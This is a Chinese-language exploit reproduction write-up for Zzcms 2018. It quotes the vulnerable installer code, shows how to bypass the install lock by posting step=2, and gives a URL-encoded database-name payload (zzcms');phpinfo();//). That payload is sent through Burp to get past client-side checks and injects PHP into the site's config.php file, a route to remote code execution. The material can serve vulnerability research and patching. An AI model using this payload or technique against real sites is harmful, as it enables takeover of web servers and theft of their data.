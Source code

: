 Zzcms 2018 最新版重装getshell
=============================

一、漏洞简介
------------

源码信息：Zzcms 2018

问题文件： \\zzcms\\install\\index.php

漏洞类型：重装getshell

站点地址：<http://www.zzcms.net/>

二、漏洞影响
------------

Zzcms2018

三、复现过程
------------

### 0x01攻击分析

在文件\\ zzcms \\ install \\ index.php文件的第9-10行中\$
\_POST使用了提取变量注册的方法进行变量的初始化。

    if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
    if($_GET) extract($_GET, EXTR_SKIP);
    $submit = isset($_POST['submit']) ? true : false;
    $step = isset($_POST['step']) ? $_POST['step'] : 1;

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step\_1.php，有install.lock，就不能重装，所以我们这里直接POST
step = 2绕过

    <?php
    switch($step) {
            case '1'://协议
                    include 'step_'.$step.'.php';
            break;
            case '2'://环境
                    $pass = true;
                    $PHP_VERSION = PHP_VERSION;
                    if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                            $php_pass = $pass = false;
                    } else {
                            $php_pass = true;
                    }
                    $PHP_MYSQL = '';
                    if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                            $PHP_MYSQL = '支持';
                            $mysql_pass = true;
                    } else {
                            $PHP_MYSQL = '不支持';
                            $mysql_pass = $pass = false;
                    }
            $PHP_GD = '';
            if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
            if(function_exists('imagegif')) $PHP_GD .= ' gif';
            if(function_exists('imagepng')) $PHP_GD .= ' png';
                    if($PHP_GD) {
                            $gd_pass = true;
                    } else {
                            $gd_pass = false;
                    }
                    $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                    $url_pass = $PHP_URL ? true : false;
                    include 'step_'.$step.'.php';
            break;
            case '3'://查目录属性
                    include 'step_'.$step.'.php';
            break;
            case '4'://建数据库
                    include 'step_'.$step.'.php';
            break;
            case '5'://安装进度
                    function dexit($msg) {
                            echo '<script>alert("'.$msg.'");window.history.back();</script>';
                            exit;
                    }

                    $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
                    if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
                    $db_name or dexit('请填写数据库名');
                    if(!select_db($db_name)) {
                            if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
                    }
                    $url=str_replace("'",'',$url);
                    //保存配置文件
                    $fp="../inc/config.php";
                    $f = fopen($fp,'r');
                    $str = fread($f,filesize($fp));
                    fclose($f);
                    $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
                    $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
                    $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
                    $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
                    $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
                    $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
                    $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
                    $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
                    fputs($f,$str);//把替换后的内容写入文件
                    fclose($f);
                    //创建数据
                    include 'step_'.$step.'.php';
                    break;
            case '6'://安装成功
                    include 'step_'.$step.'.php';
            break;
    }

![](./.resource/Zzcms2018最新版重装getshell/media/rId26.png)

    <?php
    if(@$step==3){
    $token = md5(uniqid(rand(), true));    
    $_SESSION['token']= $token; 
    ?>

step\_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤=
2，一步一步偶。

从上面的代码文中知道\$ url = str\_replace（"\'"，"，\$ url）;
把单引号替换为空了，然后的fputs写INC /
config.php的配置文件中所以这里通过\$ DB\_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f
本机创建zzcms\');phpinfo();//的数据库

![](./.resource/Zzcms2018最新版重装getshell/media/rId28.png)

因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![](./.resource/Zzcms2018最新版重装getshell/media/rId29.png)

成功写入到配置文件

![](./.resource/Zzcms2018最新版重装getshell/media/rId30.png)

![](./.resource/Zzcms2018最新版重装getshell/media/rId31.png)

image

